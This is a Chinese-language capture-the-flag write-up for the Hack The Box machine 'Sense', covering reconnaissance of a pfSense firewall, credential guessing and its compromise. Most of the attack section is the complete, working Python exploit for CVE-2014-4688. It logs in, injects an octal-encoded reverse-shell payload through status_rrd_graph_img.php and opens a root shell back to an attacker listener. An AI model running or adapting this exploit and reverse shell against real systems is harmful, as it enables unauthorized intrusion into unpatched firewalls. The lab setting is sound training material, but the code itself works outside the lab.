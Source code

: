 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Sense"
linktitle: "Sense"
date: 2022-07-13T09:43:40+08:00
type: book
summary: ""
test: 
---
```



### nmap扫描

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.60
```

发现80，443

![](image/image_qZBfUmK1Fl.png)

### pfsense是个开源的防火墙和路由器功能的设备

![](image/image_6vAitsrrQN.png)

简单尝试了下&#x20;

```bash
admin/admin,root/root,test/test,user/user,pfsense/pfsense,admin/pfsense
```

没登录成功，

看了下服务response返回 `Server: lighttpd/1.4.35`

搜了下发现

[https://www.cvedetails.com/cve-details.php?t=1\&cve\_id=CVE-2014-2323](https://www.cvedetails.com/cve-details.php?t=1\&cve_id=CVE-2014-2323 "https://www.cvedetails.com/cve-details.php?t=1\&cve_id=CVE-2014-2323")

![](image/image_O1fxZkmbpl.png)

经过验证发现不包括 `lighttpd/1.4.35` 版本

![](image/image__mZYyzzeqa.png)

用dirbuster扫描一下web路径

![](image/image_5PU7nDQd_G.png)

扫到一个安全日志信息，说有一个漏洞没修。

[https://10.10.10.60/changelog.txt](https://10.10.10.60/changelog.txt "https://10.10.10.60/changelog.txt")

![](image/image_1lF-LJuKvZ.png)

### 继续扫描发现 [system-users.txt](https://10.10.10.60/system-users.txt "system-users.txt")

![](image/image_3vWFn4RX5m.png)

尝试登录 `Rohit/pfsense`  还是登不上

最后发现用户密码是 `rohit/pfsense`

![](image/image_S3QtoF_6KF.png)

这里看到pfsense的版本是

```bash
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

搜了下相关版本的漏洞

![](image/image_DpiVUZwouh.png)

### 漏洞利用

[**https://www.exploit-db.com/exploits/43560**](https://www.exploit-db.com/exploits/43560 "https://www.exploit-db.com/exploits/43560")

CVE-2014-4688

![](image/image_jFK3Qoq712.png)

执行脚本

```bash
python3 CVE-2014-4688.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 23333 --username rohit --password pfsense
```

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date:2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
  payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
  ('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
  ('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
  ('Accept-Language', 'en-US,en;q=0.5'),
  ('Referer',login_url),
  ('Connection', 'close'),
  ('Upgrade-Insecure-Requests', '1'),
  ('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
  login_page = client.get(login_url, verify=False)

  index = login_page.text.find("csrfMagicToken")
  csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
  print("Could not connect to host!")
  exit()

# format login variables and data
if csrf_token:
  print("CSRF token obtained")
  login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
  login_data = collections.OrderedDict(login_data)
  encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
  login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
  print("No CSRF token!")
  exit()

if login_request.status_code == 200:
    print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
    try:
      exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
      if exploit_request.status_code:
        print("Error running exploit")
    except:
      print("Exploit completed")
            
```

执行成功

![](image/image_hG2Cv8nEup.png)

### 直接是root权限

![](image/image_DpOjJOTJFK.png)

### 也可以通过msf找到exp

`searchsploit pfsense` 或者 `search pfsense`

![](image/image_LyKFJuA-wQ.png)

![](image/image_j94DHTrrxo.png)

![](image/image_PFszwS7RRe.png)
